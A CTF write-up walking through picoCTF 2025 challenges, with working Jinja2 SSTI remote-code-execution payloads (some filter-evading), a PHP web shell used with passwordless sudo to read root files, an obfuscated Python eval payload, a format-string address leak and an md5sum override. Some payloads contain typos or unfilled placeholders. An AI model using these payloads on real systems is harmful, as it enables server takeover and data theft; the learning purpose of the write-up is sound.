

# Pico CTF’25

Rank: 695

# SSTI 1

## **Challenge Overview**

The challenge involved a web application that rendered user input inside a server-side template without proper sanitization. This led to **Server-Side Template Injection (SSTI)**, which allowed us to execute arbitrary Python code and retrieve the flag.

---

## **Step 1: Identifying SSTI**

To check for SSTI, we injected a simple arithmetic expression into an input field:

```
{ 7*7 }}

```

**bserved Output:** `49`

This confirmed that user input was being processed by a **Jinja2 template engine** (commonly used in Flask applications).

---

## **Step 2: Extracting Server Configuration**

Since Jinja2 allows access to application objects, we retrieved configuration details using:

```
{{ config.items() }}
```

**Findings:**

- `SECRET_KEY` was `None`, meaning session tampering wasn’t possible.
- No direct exposure of sensitive credentials.

---

## **Step 3: Filesystem Enumeration**

With code execution confirmed, we attempted to list the system directories:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -la /').read() }}
```

📌 **Key Findings:**

- A `/challenge` directory existed, possibly containing challenge-related files.

We then checked inside `/challenge`:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -la /challenge').read() }}
```

**New Finding:**

- A file named **`flag`** was present in `/challenge`.

---

## **Step 4: Extracting the Flag**

Since we had read access, we retrieved the flag using:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}
```

 **Result:** The flag was successfully displayed in the output.

---

# No Sanity

The challenge provided a web application with a profile picture upload functionality. Due to a flawed implementation, the file upload allowed us to upload a PHP web shell. The ultimate goal was to leverage this vulnerability to obtain remote code execution and retrieve the flag located in the `/root` directory.

### 1. Uploading a Web Shell

- **Objective:** Achieve code execution by uploading a file that would be processed as PHP.
- **Approach:**
We crafted a simple PHP web shell with the following payload:
    
    ```php
    <?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    } else {
        echo "No command provided.";
    }
    ?>
    ```
    
- **Execution:**
We uploaded this file (named `shell.php`) via the profile picture upload functionality. The application confirmed the upload with the message:
    
    ```bash
    The file shell.php has been uploaded
    Path: uploads/shell.php
    ```
    

### 2. Verifying Shell Access

- **Test Command:**
We navigated to the URL:

which returned the output confirming that our payload was executing. The shell printed the current user (www-data).
    
    ```
    http://target/uploads/shell.php?cmd=whoami
    ```
    
- Got the www-data as the output

### 3. Checking Sudo Privileges

- **Command:**
Next, we ran:
    
    ```
    http://target/uploads/shell.php?cmd=sudo%20-
    ```
    
- **Output:**
The output showed:
    
    ```ruby
    atching Defaults entries for www-data on challenge:
        env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    User www-data may run the following commands on challenge:
        (ALL) NOPASSWD: ALL
    ```
    
- **Implication:**
This indicated that the web server user `www-data` could run all commands as root without a password, giving us full root privileges.

### 4. Retrieving the Flag

- **Direct Command Execution:**
With full sudo privileges, we executed:
    
    ```perl
    http://target/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
    ```
    
- **Result:**
The contents of `/root/flag.txt` were displayed, revealing the flag.

### Flag

picoCTF{wh47_c4n_u_d0_wPHP_712a9451}

---

- Analyzed the binary using binary ninja and then got the address of main() and win()


- Gave the same address to the server, but it didn’t work. Upon closer look, the main() address was different to the one in win.
- So i found the relative address and then added to the one given in the server


### Flag

picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b}

---

# Eval

- Initial Probe - I inspected the source of the website, it had all the blacklisted words and the regex used to filter them


- Since it was a python backend i thought I need to build the command by using ascii values.
- To test, i just ran a python script to return hello world, which worked. This helped me figure out that i need the command to return the value not just print it
- Admittedly, with my lack of experience with this type of scripting, i used to the help of gpt to frame the command

```python
__builtins__.__dict__["".join(chr(x) for x in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95])]("".join(chr(x) for x in [111, 115])).popen("".join(chr(x) for x in [99, 97, 116, 32, 47, 102, 108, 97, 103, 46, 116, 120, 116])).read()

```

- This returned the flag

### Flag

picoCTF{D0nt_Use_Unsecure_f@nctions0cd8a9f1}

---

# Lyrics Jump

- A code was given where it read and stored the chorus that we entered.
- It used that to dynamically change the lyrics.
- It used a separator so we can give a command that will set the value of lip to the desire value
- So, in the chorus part i gave ;return 0


### Flag

picoCTF{70637h3r_f0r3v3r_75053bc3}

---

# Event Viewer

- I tried finding the name of the malware that was installed. Upon looking into the logs, it turns out to be totally_legit_software.exe
- From there I filtered source for msi installer, which led to finding a base64 encoded part of the flag


- Upon decoding this I found the first part of the flag `picoCTF{Ev3nt_vi3wv3r_
- Upon searching totally_legit_software, I landed on an event where it ran a exe file called custom_shutdown. I thought this was the last part of the flag. It too had a base64 encoded part of flag:


- On decryption it lead to 1s_a_pr3tty_us3ful_
- After this i was stuck for days looking for the second part. By searching for cmd and looking for any suspicious process creations. But no use
- So, I thought what if this was not the last part of the flag, as it ends with _ and the sentence in the flag seems incomplete (kiddish ik)
- So, i filtered all the events with 1074 process id, voila I got the base 64 encoded last flag part. This solve lifted a weight tbh.


- This gave t00l_81ba3fe9}

### Flag

picoCTF{Ev3nt_vi3wv3r_1s_a_pr3tty_us3ful_t00l_81ba3fe9}

---

# Can RSA even be Broken?

- The challenge said to look at the values of N closely. And after around 5 iterations of executing the nc command it was clear that N is not a prime number
- the value of e is also a constant
- But, as i am new to cryptography, these did not mean anything to me.
- So, I created a python script with help of copilot that allowed me to reverse the cyphertext i got from nc command

```python
import math
import random

def long_to_bytes(n):
    if n == 0:
        return b'\x00'
    
    bytearray_result = bytearray()
    while n > 0:
        bytearray_result.append(n & 0xFF)
        n >>= 8
    
    return bytes(reversed(bytearray_result))

def inverse(a, m):
    g, x, y = extended_gcd(a, m)
    if g != 1:
        raise Exception('Modular inverse does not exist')
    else:
        return x % m

def extended_gcd(a, b):
    if a == 0:
        return b, 0, 1
    else:
        gcd, x, y = extended_gcd(b % a, a)
        return gcd, y - (b // a) * x, x

def gcd(a, b):
    while b:
        a, b = b, a % b
    return a

def pollard_rho(n):
    if n % 2 == 0:
        return 2
    
    x = random.randint(1, n-1)
    y = x
    c = random.randint(1, n-1)
    d = 1
    
    # Define the function f(x) = (x^2 + c) % n
    f = lambda x: (x*x + c) % n
    
    while d == 1:
        x = f(x)
        y = f(f(y))
        d = gcd(abs(x-y), n)
        
        if d == n:
            # Failed with these values, try again with new random values
            return pollard_rho(n)
    
    return d

def factor_n(N):
    """
    Factor N into its prime components p and q
    Try multiple factorization methods
    """
    # Try Pollard's rho algorithm
    try:
        p = pollard_rho(N)
        if p > 1 and N % p == 0:
            q = N // p
            return p, q
    except:
        pass
    
    # Try Fermat's factorization for completeness
    try:
        a = math.isqrt(N)
        b_squared = a*a - N
        
        # Limit iterations to prevent infinite loops
        max_iterations = 1000000
        iterations = 0
        
        while not is_perfect_square(b_squared) and iterations < max_iterations:
            a += 1
            b_squared = a*a - N
            iterations += 1
            
        if iterations < max_iterations:
            b = math.isqrt(b_squared)
            p = a + b
            q = a - b
            return p, q
    except:
        pass
    
    raise Exception("Factorization failed. For a real 1024-bit RSA key, this is expected.")

def is_perfect_square(n):
    """Check if n is a perfect square"""
    if n < 0:
        return False
    root = math.isqrt(n)
    return root * root == n

def decrypt_rsa(N, e, ciphertext):
    """
    Decrypt an RSA encrypted message given N, e, and the ciphertext
    """
    # Factor N to find p and q
    p, q = factor_n(N)
    
    # Calculate phi(N) = (p-1)*(q-1)
    phi = (p-1) * (q-1)
    
    # Calculate private key d = e^(-1) mod phi(N)
    d = inverse(e, phi)
    
    # Decrypt ciphertext: m = c^d mod N
    m = pow(ciphertext, d, N)
    
    # Convert number back to text
    try:
        plaintext = long_to_bytes(m).decode('utf-8')
    except UnicodeDecodeError:
        plaintext = f"[Binary data, hex representation: {long_to_bytes(m).hex()}]"
    
    return plaintext

if __name__ == "__main__":
    N = <your value>
    e = <your value>
    ciphertext = <your value
    
    try:
        plaintext = decrypt_rsa(N, e, ciphertext)
        print(f"Decrypted message: {plaintext}")
    except Exception as ex:
        print(f"Decryption failed: {ex}")
        print("For a real 1024-bit RSA key, factorization would require advanced methods.")
```

from this i got the decrypted flag

### Flag


---

# Hash Only 1

- First, I tried if I could get direct access to the file. Nope
- Then tried to escalate the preveliges through sudo. Nope, did not work
- I got the binary from the service
- Opened the binary in binary ninja and upon inspecting the main function, it was escalating previliges and calling system function to run the bash command that returns the MD5 Hash of the flag


- So, then I though I could change the function in the env for md5, so with the help chatgpt i created the payload and exported it.

```bash
echo "md5sum() { cat /root/flag.txt; }" > env.sh
```

- Now when i ran the flag hasher, i got the flag.


---

# Pachinko

- Random hit this was. I simply connected the 2 input nodes to output nodes, each input going to 2 nodes.
- Basically in a zig-zag as shown in the image. I got extremely lucky, and it worked.


### Flag

picoCTF{p4ch1nk0_f146_0n3_e947b9d7}

---

# SSTI 2

- I tried to use string building with ASCII and even base64 but all of them got filtered.
- Then with help of AI i was able to create a payload that tried to read the contents of flag.txt using content. At that time there was no such file


- First, I needed to determine what was available on the system. Using a Unicode-encoded command to bypass character filters, I listed the contents of the current directory:

```bash

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')(POP)|attr('read')() }}
```

```bash
Output: total 12
drwxr-xr-x 1 root root 25 Mar 15 14:20 .
drwxr-xr-x 1 root root 23 Mar 15 14:20 ..
drwxr-xr-x 2 root root 32 Mar 15 14:20 __pycache__
-rwxr-xr-x 1 root root 1841 Mar 6 03:27 app.py
-rw-r--r-- 1 root root 36 Mar 6 03:40 flag
-rwxr-xr-x 1 root root 268 Mar 6 03:27 requirements.txt
```

- After identifying that the flag file was named `flag` (not flag.txt) in the current directory, I crafted a payload to read its contents:

```bash

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')(POP)|attr('read')() }}

```

### Flag

**picoCTF{sst1_f1lt3r_byp4ss_8b534b82}**


---

# Perplexed

- The binary when analyzed with binary ninja, prompts the user for the password using fgets and called check to validate the password.
- If it was valid it printed Correct!! :D otherwise Wrong :(
- The check functions does these verifications
    - The size must be 27 bytes long
    - It compares the password with a hardcoded comparison array, using custom alg
        - It iterates through each byte of the comparison array
        - For each byte, it iterates through each bit
        - It compares each bit from the comparison array with a corresponding bit from the input
        - If any bit doesn't match, it returns 1 (failure)
    - But the mapping of the bits was unclear; so with help of AI
        - It uses two variables: `var_1c_1` (byte index) and `var_20_1` (bit index within the byte)
        - It starts with `var_20_1 = 0` but immediately increments it to 1 for the first bit
        - For each bit of the comparison array, it checks if the corresponding bit in the input matches
        - After each comparison, it increments `var_20_1`
        - When `var_20_1` reaches 8, it resets to 0 and increments `var_1c_1` to move to the next byte

```python
def reverse_flag(comparison_bytes):
    # Initialize a 27-byte result
    result = bytearray(27)
    
    input_bit_pos = 0  # Current bit position in current input byte
    input_byte_pos = 0  # Current byte position in input
    
    # Process each byte in the comparison array
    for i in range(23):  # 0x17 = 23 bytes
        # Process each bit in this byte
        for j in range(8):
            # Special handling for the first bit
            if input_bit_pos == 0:
                input_bit_pos = 1
            
            # Get the bit from comparison array
            comp_bit = (comparison_bytes[i] >> (7 - j)) & 1
            
            # Set the bit in our result
            if comp_bit:
                result[input_byte_pos] |= (1 << (7 - input_bit_pos))
            
            # Move to next bit position
            input_bit_pos += 1
            
            # If we've reached the end of a byte
            if input_bit_pos == 8:
                input_bit_pos = 0
                input_byte_pos += 1
                
                # Check if we've reached the end of the input
                if input_byte_pos == 27:
                    return result
    
    return result

# The comparison array
comparison = bytes([
    0xe1, 0xa7, 0x1e, 0xf8, 0x75, 0x23, 0x7b, 0x61, 
    0xb9, 0x9d, 0xfc, 0x5a, 0x5b, 0xdf, 0x69, 0xd2, 
    0xfe, 0x1b, 0xed, 0xf4, 0xed, 0x67, 0xf4
])

flag_bytes = reverse_flag(comparison)
print(flag_bytes.decode('utf-8'))
```

- The mapping diagram:

```mermaid
graph TD
    subgraph "Comparison Array (First 2 Bytes)"
        CB0["Byte 0 (0xE1)"]
        CB0B0["Bit 0 (1)"] --> CB0
        CB0B1["Bit 1 (1)"] --> CB0
        CB0B2["Bit 2 (1)"] --> CB0
        CB0B3["Bit 3 (0)"] --> CB0
        CB0B4["Bit 4 (0)"] --> CB0
        CB0B5["Bit 5 (0)"] --> CB0
        CB0B6["Bit 6 (0)"] --> CB0
        CB0B7["Bit 7 (1)"] --> CB0
        
        CB1["Byte 1 (0xA7)"]
        CB1B0["Bit 0 (1)"] --> CB1
        CB1B1["Bit 1 (0)"] --> CB1
        CB1B2["Bit 2 (1)"] --> CB1
        CB1B3["Bit 3 (0)"] --> CB1
        CB1B4["Bit 4 (0)"] --> CB1
        CB1B5["Bit 5 (1)"] --> CB1
        CB1B6["Bit 6 (1)"] --> CB1
        CB1B7["Bit 7 (0)"] --> CB1
    end
    
    subgraph "Password (First 3 Bytes)"
        PB0["Byte 0"]
        PB0B0["Bit 0 (unused)"] --> PB0
        PB0B1["Bit 1"] --> PB0
        PB0B2["Bit 2"] --> PB0
        PB0B3["Bit 3"] --> PB0
        PB0B4["Bit 4"] --> PB0
        PB0B5["Bit 5"] --> PB0
        PB0B6["Bit 6"] --> PB0
        PB0B7["Bit 7"] --> PB0
        
        PB1["Byte 1"]
        PB1B0["Bit 0 (unused)"] --> PB1
        PB1B1["Bit 1"] --> PB1
        PB1B2["Bit 2"] --> PB1
        PB1B3["Bit 3"] --> PB1
        PB1B4["Bit 4"] --> PB1
        PB1B5["Bit 5"] --> PB1
        PB1B6["Bit 6"] --> PB1
        PB1B7["Bit 7"] --> PB1
        
        PB2["Byte 2"]
        PB2B0["Bit 0 (unused)"] --> PB2
        PB2B1["Bit 1"] --> PB2
        PB2B2["Bit 2"] --> PB2
        PB2B3["Bit 3"] --> PB2
        PB2B4["Bit 4"] --> PB2
        PB2B5["Bit 5"] --> PB2
        PB2B6["Bit 6"] --> PB2
        PB2B7["Bit 7"] --> PB2
    end
    
    %% Mapping arrows
    CB0B0 -->|"var_1c_1=0, var_20_1=1"| PB0B1
    CB0B1 -->|"var_1c_1=0, var_20_1=2"| PB0B2
    CB0B2 -->|"var_1c_1=0, var_20_1=3"| PB0B3
    CB0B3 -->|"var_1c_1=0, var_20_1=4"| PB0B4
    CB0B4 -->|"var_1c_1=0, var_20_1=5"| PB0B5
    CB0B5 -->|"var_1c_1=0, var_20_1=6"| PB0B6
    CB0B6 -->|"var_1c_1=0, var_20_1=7"| PB0B7
    CB0B7 -->|"var_1c_1=1, var_20_1=1"| PB1B1
    
    CB1B0 -->|"var_1c_1=1, var_20_1=2"| PB1B2
    CB1B1 -->|"var_1c_1=1, var_20_1=3"| PB1B3
    CB1B2 -->|"var_1c_1=1, var_20_1=4"| PB1B4
    CB1B3 -->|"var_1c_1=1, var_20_1=5"| PB1B5
    CB1B4 -->|"var_1c_1=1, var_20_1=6"| PB1B6
    CB1B5 -->|"var_1c_1=1, var_20_1=7"| PB1B7
    CB1B6 -->|"var_1c_1=2, var_20_1=1"| PB2B1
    CB1B7 -->|"var_1c_1=2, var_20_1=2"| PB2B2
```





### Flag


---

# PIE 2

- The address was random last time but it was printed. This time it wasn’t
- I found the absoulute address of win() to be 0x136a and main() to be 0x1400
- 


- So, the name might have something to do. It turns out that print(buffer) has a vulnerability so when i entered

```bash
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```

- This gave address of all the function call
- Main- 0x5e3115174400 → Win() 0x5e3115174400 - 0x96 = 0x5e311517436a
- With this I computed the address of win()


### Flag

picoCTF{p13_5h0u1dn'7_134k_bb903549}

---

# Apriti Sesamo

- The emacs hardcore user hint was helpful.
- With that i tried adding extensions to the URL of the website .bak,~. Only ~ worked
- It revealed that the coder checks if the 2 inputs are same and their sha1 is different
- So i searched for precomputed strings, tried tools like hashclash to generate, but nope
- After several days, just 30mins before the deadline, i thought what if i sent the raw data of the pdfs as input
- So i used strings to get it. Amateur me, didn’t know that it only gets human readable chars and leaves out the rest of it.
- Then i thought of sending the entire pdf as raw binary, but didn’t know how. That is when ChatGPT (or GPT bhaiya as I like to call him lol) helped me write a script that send the contents of the pdf as raw

```python
import requests

url = "http://verbal-sleep.picoctf.net:63131/impossibleLogin.php"

# Replace with the correct paths for both colliding files.
file1_path = r"C:<path>\shattered-1.pdf"
file2_path = r"C:<path>\shattered-2.pdf"

# Read the files in binary mode to preserve every byte.
with open(file1_path, "rb") as f1:
    content1 = f1.read()
with open(file2_path, "rb") as f2:
    content2 = f2.read()

# Construct the POST payload with the raw binary data.
payload = {
    "username": content1,
    "pwd": content2,
}

# Send the POST request.
response = requests.post(url, data=payload)
print(response.text)

```

- Bam got the output

### Flag

picoCTF{w3Ll_d3sErV3d_Ch4mp_76d46a4d}

